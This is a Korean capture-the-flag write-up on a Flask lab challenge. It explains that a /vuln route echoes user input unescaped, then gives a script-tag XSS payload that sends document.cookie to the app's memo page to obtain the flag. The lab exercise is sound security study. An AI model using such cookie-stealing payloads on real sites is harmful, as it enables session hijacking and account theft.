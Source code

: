 ## 취약점 분석

### memo 함수

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

* 이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록하고 출력합니다.


### vuln 함수

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시
```

* 이용자가 입력한 값을 페이지에 그래도 출력합니다.

⇨ memo 함수와 vuln 함수 둘다 이용자가 입력한 값을 페이지에 그대로 출력하고 있습니다.
⇨ render_template 함수를 사용하는 memo 함수는 변수가 기록될 때 HTML 엔티티코드로 변환되서 저장되는데, vuln은 그냥 출력하고 있어서 XSS 취약점이 발생합니다.


<br>


## 익스플로잇

<img src="https://velog.velcdn.com/images/silvergun8291/post/12c1903c-92cb-4055-9fd9-6b086a16ac40/image.png">

문제 사이트에 접속하면 3개의 연결된 페이지들의 목록이 나옵니다.

#

![](https://velog.velcdn.com/images/silvergun8291/post/214fb9f1-1837-4480-9b4c-b69af70254fc/image.png)

flag 페이지로 들어가면 입력창이 떠서 XSS 공격을 시도해볼 수 있습니다.

<br>

```html
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

script 태그를 이용해서 XSS 공격을 시도해 보면

#

<img src="https://velog.velcdn.com/images/silvergun8291/post/bfe59d5d-23da-48e2-99a7-92c22373df13/image.png">

공격이 성공해서 FLAG가 출력되었습니다.



